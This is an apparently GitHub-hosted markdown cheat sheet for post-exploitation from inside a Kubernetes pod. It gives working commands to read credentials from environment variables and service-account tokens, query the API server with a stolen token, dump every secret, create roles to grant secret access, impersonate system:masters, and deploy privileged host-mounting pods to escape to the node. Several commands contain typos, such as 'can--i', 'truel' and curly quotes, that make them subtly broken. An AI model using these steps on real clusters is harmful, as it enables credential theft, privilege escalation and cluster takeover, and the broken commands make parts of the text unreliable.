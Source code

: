 ### Inside the pod 
0. are you inside the pod? run:`if [[ -z "$KUBERNETES_SERVICE_HOST" ]];then echo false;else echo true;fi`

1. Execute `env`. What to look for?
- Addresses of other services
- Creds from cloud provider, services, db
- Secrets, logins, passwords of other services and other sensetive info

2. File system 
- Application source code
- Configs with sensitive data
- Mounted directories (`mount |grep overlay`, `df`, )
- Container socket
- Root directory
- Ability to create StaticPod

3. DNS-discovery 
```bash
cat /etc/resolv.conf
env |grep -E '(KUBERNETES|[^_]SERVICE)_PORT=' | sort
```
check kube-apiserver
```bash
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
- search other services
`dig +short srv any.any.svc.cluster.local`
- To retrieve all services in the cluster namespace:
`dig +noall +answer srv any.any.any.svc.cluster.local |sort -k 8`
- set your rDNS records
`dig +noall +answer 10-0-200-20.prometheus-kube-prometheus-kubelet.kube-system.svc.cluster.local. 10-0-200-20.prometheus-kube-prometheus-kubelet.kube-system.svc.cluster.local. 30 IN A 10.0.200.20` 

4. Service account (ServiceAccount defines Pod capabilities in a cluster)
- /run/secrets/kubernetes.io/serviceaccount
- /var/run/secrets/kubernetes.io/serviceaccount
- /secrets/kubernetes.io/serviceaccount
- `kubectl auth can--i --list`i
- run scripts: `https://github.com/BishopFox/badPods/blob/main/scripts/can-they.sh` to find the token/secret for each pod running on the node and tell you what each token is authorized to do. It can be run from within a pod that has the host's filesystem mounted to /host, or from outside the pod

5. Interaction with kube-api: via `kubectl`, if you have it. If not: 
- take him: `curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl`
- via kube-apiserver: 
```
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME
```
- via /dev/tcp, /dev/udp (http://rus-linux.net/MyLDP/consol/tcp-udp-socket-bash-shell.html) 

6. Try get all secrets in your context: 
```bash 
kubectl get secrets -A -o yaml
``` 
- example: `kubectl get secret --namespace cattle-system bootstrap-secret -o go-template='{{.data.bootstrapPassword|base64decode}}{{"\n"}}'
- also, if you have access to the JWT token with listing secrets permissions, can use curl to get all secrets:
```bash
curl -k -v -H “Authorization: Bearer <jwt_token>” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```
- if you don't have access to the any JWT-token, try create role and service account, and rolebinding to service account for listing secrets:
```bash 
kubectl create -f - << EOF
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  namespace: default
  name: read-secrets
rules:
- apiGroups: [*]
  resources: ["secrets"]
  verbs: ["list"]
EOF
SERVICE_ACCOUNT_NAME="sa1"
kubectl create sa "$SERVICE_ACCOUNT_NAME"
SERVICE_ACCOUNT_SECRET_NAME=`kubectl get secrets $SERVICE_ACCOUNT_NAME -o json | jq -r '.secrets[].name'`
TOKEN=`kubectl get secrets $SERVICE_ACCOUNT_SECRET_NAME -o json | jq -r '.data.name' | base64 -d`
kubectl create rolebinding read-secrets-binding --role=read-secrets --serviceaccount=default:"$SERVICE_ACCOUNT_NAME"
curl -k -v -H “Authorization: Bearer $TOKEN” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```
- if cluster role have rules that allow it to impersonate groups and users, try to list all secrets using **–as=null –as-group=system:masters** it will be granted full permissions:
```bash
kubectl get secrets --context=$CONTEXT_NAME --as=null –as-group=system:masters
```
7. Check threatening pods-right (.items.rules) and try create (or modified) badPods (https://github.com/BishopFox/badPods) or create all badPods  

example of bad pods yaml
```yaml
spec:
  hostNetwork: true   <-- BAD
  hostPID:true        <-- BAD
  hostIPC:true        <-- BAD
  containers:
  - name: ubuntu-test
    image: ubuntu
    securityContext:
      privileged: true        <-- BAD
    volumeMounts:         
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while truel do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:         <-- BAD
      path: /
```
8. Check used vulnerable images
- Get used docker-image of all pods in all namespaces:

```bash
kubectl get pods -A -o go-template='{{range .spec.containers}}{{.image}}{{"\n"}}{{end}}' | sort -u >>  images.list
```

- Exec `apt-get update && apt-get install docker-scan-plugin` and scan `docker scan $IMAGE` (or `cat images.list | xargs -P 12 -I %i docker scan %i` )

9. Get all external ports of all services in kubernetes cluster 
```bash
kubectl get svc --all-namespaces -o go-template='{{range .items}}{{range.spec.ports}}{{if .nodePort}}{{.nodePort}}{{"\n"}}{{end}}{{end}}{{end}}'`
```



